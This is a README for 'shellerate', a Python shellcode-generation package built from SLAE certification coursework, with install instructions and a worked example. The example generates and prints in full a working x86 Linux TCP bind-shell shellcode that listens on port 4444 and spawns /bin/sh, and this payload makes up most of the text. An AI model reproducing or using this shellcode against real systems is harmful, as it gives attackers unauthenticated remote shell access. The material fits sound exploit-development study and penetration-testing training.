 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learnt in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux

Of course other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.generate()
b.shellcode
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```


